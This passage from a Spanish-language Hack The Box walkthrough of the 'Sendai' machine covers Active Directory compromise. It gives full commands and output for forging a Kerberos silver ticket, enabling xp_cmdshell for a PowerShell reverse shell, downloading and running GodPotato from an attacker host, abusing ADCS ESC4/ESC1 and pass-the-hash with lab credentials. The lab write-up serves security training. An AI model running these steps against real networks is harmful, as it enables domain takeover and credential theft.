Finalmente obtener el hash NTLM.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ pypykatz crypto nt 'SurenessBlob85'
58655c0b90b2492f84fb46fa78c2d96a
~~~
Con esto ya se puede impersonar los permisos de administrator y forgar un ticket. El user id siempre sera 500 ya que este es el que pertenece al administrator.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ impacket-ticketer -nthash 58655c0b90b2492f84fb46fa78c2d96a -domain-sid "S-1-5-21-3085872742-570972823-736764132" -domain "sendai.vl" -spn "MSSQL/dc.sendai.vl" -groups 1105 -user-id 500 "administrator"
Impacket v0.14.0.dev0+20251117.163331.7bd0d5ab - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for sendai.vl/administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in administrator.ccache
~~~
Una vez obtenido el ticket, se lo importa en memoria e inicia sesion, para ello se realiza un pequelo cambio al `/etc/hosts` ya que se esta realizando portforwarding y kerberos no se autentica directamente con la ip.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai/exploits]
└─$ cat /etc/hosts | grep '240.0.0.1'    
240.0.0.1 sendai.vl dc dc.sendai.vl

┌──(kali㉿kali)-[~/htb/sendai]
└─$ export KRB5CCNAME=$(pwd)/administrator.ccache

┌──(kali㉿kali)-[~/htb/sendai]
└─$ mssqlclient.py -k -no-pass dc.sendai.vl -windows-auth
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (SENDAI\Administrator  dbo@master)>
~~~
Con este acceso ahora si se puede habilitar el `xp_cmdshell` y lograr entrablar una reverse shell.
~~~bash
SQL (SENDAI\Administrator  dbo@master)> EXEC sp_configure 'show advanced options', 1;
INFO(DC\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (SENDAI\Administrator  dbo@master)> RECONFIGURE
SQL (SENDAI\Administrator  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
INFO(DC\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (SENDAI\Administrator  dbo@master)> RECONFIGURE
SQL (SENDAI\Administrator  dbo@master)> xp_cmdshell "powershell -e <SHELL>"
~~~
Por otro lado colocando un escucha se logra tener una shell y se ve que tiene permisos "impersonate".
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ rlwrap -cAr nc -nvlp 443 
listening on [any] 443 ...
connect to [10.10.14.28] from (UNKNOWN) [10.129.234.66] 61045

PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Windows\system32> 
~~~
### Aprovechando privilegios Impersonate
Con el privilegio impersonate se puede utilizar los famosos `potatoes`, asi que se procede a pasar y ejecutar otra shell.
~~~bash
PS C:\users\sqlsvc\documents> curl http://10.10.14.28/GodPotato.exe -o GodPotato.exe
PS C:\users\sqlsvc\documents> .\GodPotato.exe -cmd "powershell -e <SHELL>"
~~~
Desde otra terminal se coloca un escucha.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ rlwrap -cAr nc -nvlp 1234                                                   
listening on [any] 1234 ...
connect to [10.10.14.28] from (UNKNOWN) [10.129.234.66] 61116

PS C:\users\sqlsvc\documents> whoami
nt authority\system
~~~
Y se logra obtener permisos `nt authority\system`.
### Metodo 2, ADCS
Volviendo a la terminar inicial de `mgtsvc$`, se realiza una enumeración automatizada con `PrivescCheck.ps1`.
~~~powershell
*Evil-WinRM* PS C:\users\mgtsvc$> curl http://10.10.14.28/PrivescCheck.ps1 -o PrivescCheck.ps1
*Evil-WinRM* PS C:\users\mgtsvc$> Import-module .\PrivescCheck.ps1
*Evil-WinRM* PS C:\users\mgtsvc$> Invoke-PrivescCheck
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0043 - Reconnaissance                           ┃
┃ NAME     ┃ User - Identity                                   ┃
┃ TYPE     ┃ Base                                              ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Get information about the current user (name, domain name)   ┃
┃ and its access token (SID, integrity level, authentication   ┃
┃ ID).                                                         ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛

Name             : SENDAI\mgtsvc$
SID              : S-1-5-21-3085872742-570972823-736764132-1130
IntegrityLevel   : Medium Plus Mandatory Level (S-1-16-8448)
SessionId        : 0
TokenId          : 00000000-00948d32
AuthenticationId : 00000000-00948baa
OriginId         : 00000000-00000000
ModifiedId       : 00000000-00948bb1
Source           : NtLmSsp (00000000-00000000)
<----SNIP---->
┏━━━━━━━━━━┳━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┓
┃ CATEGORY ┃ TA0004 - Privilege Escalation                     ┃
┃ NAME     ┃ Services - Non-Default Services                   ┃
┃ TYPE     ┃ Base                                              ┃
┣━━━━━━━━━━┻━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┫
┃ Get information about third-party services. It does so by    ┃
┃ parsing the target executable's metadata and checking        ┃
┃ whether the publisher is Microsoft.                          ┃
┗━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━┛
Name        : Support
DisplayName :
ImagePath   : C:\WINDOWS\helpdesk.exe -u clifford.davey -p RFmXXXXXXl_3p -k netsvcs
User        : LocalSystem
StartMode   : Automatic

Name        : VGAuthService
DisplayName : VMware Alias Manager and Ticket Service
ImagePath   : "C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"
User        : LocalSystem
StartMode   : Automatic
~~~
Logrando obtener credenciales para el usuario `clifford.davey`.
Viendo los permisos y grupos de este usuario se puede ver que pertenece al grupo CA.

Esto significa que puede tener algun template vulnerable, por lo que se procede a buscar vulnerabilidades con certipy.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ certipy-ad find -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 16 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sendai-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'sendai-DC-CA'
[*] Checking web enrollment for CA 'sendai-DC-CA' @ 'dc.sendai.vl'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sendai-DC-CA
    DNS Name                            : dc.sendai.vl
    Certificate Subject                 : CN=sendai-DC-CA, DC=sendai, DC=vl
    Certificate Serial Number           : 326E51327366FC954831ECD5C04423BE
    Certificate Validity Start          : 2023-07-11 09:19:29+00:00
    Certificate Validity End            : 2123-07-11 09:29:29+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SENDAI.VL\Administrators
      Access Rights
        ManageCa                        : SENDAI.VL\Administrators
                                          SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
        ManageCertificates              : SENDAI.VL\Administrators
                                          SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
        Enroll                          : SENDAI.VL\Authenticated Users
Certificate Templates
  0
    Template Name                       : SendaiComputer
    Display Name                        : SendaiComputer
    Certificate Authorities             : sendai-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 100 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 4096
    Template Created                    : 2023-07-11T12:46:12+00:00
    Template Last Modified              : 2023-07-11T12:46:19+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SENDAI.VL\Domain Admins
                                          SENDAI.VL\Domain Computers
                                          SENDAI.VL\Enterprise Admins
      Object Control Permissions
        Owner                           : SENDAI.VL\Administrator
        Full Control Principals         : SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
                                          SENDAI.VL\ca-operators
        Write Owner Principals          : SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
                                          SENDAI.VL\ca-operators
        Write Dacl Principals           : SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
                                          SENDAI.VL\ca-operators
        Write Property Enroll           : SENDAI.VL\Domain Admins
                                          SENDAI.VL\Domain Computers
                                          SENDAI.VL\Enterprise Admins
    [+] User Enrollable Principals      : SENDAI.VL\Domain Computers
                                          SENDAI.VL\ca-operators
    [+] User ACL Principals             : SENDAI.VL\ca-operators
    [!] Vulnerabilities
      ESC4                              : User has dangerous permissions.
~~~
### ESC4
Se tiene un template vulnerable con una vulnerabilidad ESC4.
Lo que se puede observar es que en los `Enrollment Rights` se tiene `Domain Computers`, por lo que se tiene que tener en cuenta al momento de sacar el certificado para impersonar al administrator, teniendo en cuenta que se tiene acceso a la cuenta de usuario `mgtsvc$`.

Primero abusando de ESC4, en palabras simples, se puede modificar el template para que este tenga una vulnerabilidad ESC1.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ certipy-ad template \
    -u 'clifford.davey@sendai.vl' -p 'RFmoB2WplgE_3p' \
    -dc-ip '10.129.234.66' -template 'SendaiComputer' \
    -write-default-configuration
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving current configuration to 'SendaiComputer.json'
File 'SendaiComputer.json' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote current configuration for 'SendaiComputer' to 'SendaiComputer.json'
[*] Updating certificate template 'SendaiComputer'
[*] Replacing:
[*]     nTSecurityDescriptor: b'\x01\x00\x04\x9c0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x02\x00\x1c\x00\x01\x00\x00\x00\x00\x00\x14\x00\xff\x01\x0f\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00\x01\x01\x00\x00\x00\x00\x00\x05\x0b\x00\x00\x00'
[*]     flags: 66104
[*]     pKIDefaultKeySpec: 2
[*]     pKIKeyUsage: b'\x86\x00'
[*]     pKIMaxIssuingDepth: -1
[*]     pKICriticalExtensions: ['2.5.29.19', '2.5.29.15']
[*]     pKIExpirationPeriod: b'\x00@9\x87.\xe1\xfe\xff'
[*]     pKIExtendedKeyUsage: ['1.3.6.1.5.5.7.3.2']
[*]     pKIDefaultCSPs: ['2,Microsoft Base Cryptographic Provider v1.0', '1,Microsoft Enhanced Cryptographic Provider v1.0']
[*]     msPKI-Enrollment-Flag: 0
[*]     msPKI-Private-Key-Flag: 16
[*]     msPKI-Certificate-Name-Flag: 1
[*]     msPKI-Minimal-Key-Size: 2048
[*]     msPKI-Certificate-Application-Policy: ['1.3.6.1.5.5.7.3.2']
Are you sure you want to apply these changes to 'SendaiComputer'? (y/N): y
[*] Successfully updated 'SendaiComputer'
~~~
Ahora volviendo a revisar las vulnerabilidades se podria ver un ESC1.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ certipy-ad find -u 'clifford.davey' -p 'RFmoB2WplgE_3p' -dc-ip 10.129.234.66 -stdout -vulnerable
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 16 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sendai-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'sendai-DC-CA'
[*] Checking web enrollment for CA 'sendai-DC-CA' @ 'dc.sendai.vl'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : sendai-DC-CA
    DNS Name                            : dc.sendai.vl
    Certificate Subject                 : CN=sendai-DC-CA, DC=sendai, DC=vl
    Certificate Serial Number           : 326E51327366FC954831ECD5C04423BE
    Certificate Validity Start          : 2023-07-11 09:19:29+00:00
    Certificate Validity End            : 2123-07-11 09:29:29+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SENDAI.VL\Administrators
      Access Rights
        ManageCa                        : SENDAI.VL\Administrators
                                          SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
        ManageCertificates              : SENDAI.VL\Administrators
                                          SENDAI.VL\Domain Admins
                                          SENDAI.VL\Enterprise Admins
        Enroll                          : SENDAI.VL\Authenticated Users
Certificate Templates
  0
    Template Name                       : SendaiComputer
    Display Name                        : SendaiComputer
    Certificate Authorities             : sendai-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2023-07-11T12:46:12+00:00
    Template Last Modified              : 2026-03-14T02:27:34+00:00
    Permissions
      Object Control Permissions
        Owner                           : SENDAI.VL\Administrator
        Full Control Principals         : SENDAI.VL\Authenticated Users
        Write Owner Principals          : SENDAI.VL\Authenticated Users
        Write Dacl Principals           : SENDAI.VL\Authenticated Users
    [+] User Enrollable Principals      : SENDAI.VL\Authenticated Users
    [+] User ACL Principals             : SENDAI.VL\Authenticated Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
      ESC4                              : User has dangerous permissions.
~~~
### ESC1
Como se menciono antes, se necesita una cuenta de maquina para abusar del ESC1, asi que se utiliza `MGTSVC$`.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ certipy-ad req \                                               
    -u 'MGTSVC$@sendai.vl' -hashes '1cee4a65ef4459e44eb0031cc640ba18' \
    -dc-ip '10.129.234.66' -target 'dc.sendai.vl' \
    -ca 'sendai-DC-CA' -template 'SendaiComputer' \
    -upn 'administrator@sendai.vl' -sid 'S-1-5-21-3085872742-570972823-736764132-500'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 8
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sendai.vl'
[*] Certificate object SID is 'S-1-5-21-3085872742-570972823-736764132-500'
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
~~~
Con el `.pfx` se puede obtener el hash NTLM de administrator.
~~~bash
┌──(kali㉿kali)-[~/htb/sendai]
└─$ certipy-ad auth -pfx 'administrator.pfx' -dc-ip '10.129.234.66'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@sendai.vl'
[*]     SAN URL SID: 'S-1-5-21-3085872742-570972823-736764132-500'
[*]     Security Extension SID: 'S-1-5-21-3085872742-570972823-736764132-500'
[*] Using principal: 'administrator@sendai.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
File 'administrator.ccache' already exists. Overwrite? (y/n - saying no will save with a unique filename): n
[*] Wrote credential cache to 'administrator_1f20553f-52a6-4085-8e19-c0bbe4cb471e.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sendai.vl': aad3b435b51404eeaad3b435b51404ee:cfb1XXXXXX8d087a
~~~
Y de esa forma entrar con winrm al DC.
~~~powershell
┌──(kali㉿kali)-[~/htb/sendai]
└─$ evil-winrm -i 10.129.234.66 -u 'administrator' -H cfb106feec8b89a3d98e14dcbe8d087a
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
sendai\administrator
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Iniciando sesion con winrm y el hash NTLM obtenida se puede ver la root flag, que es el objetivo de la maquina.
~~~powershell
*Evil-WinRM* PS C:\Users\Administrator> cd desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> type root.txt
<Encuentre su propio root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

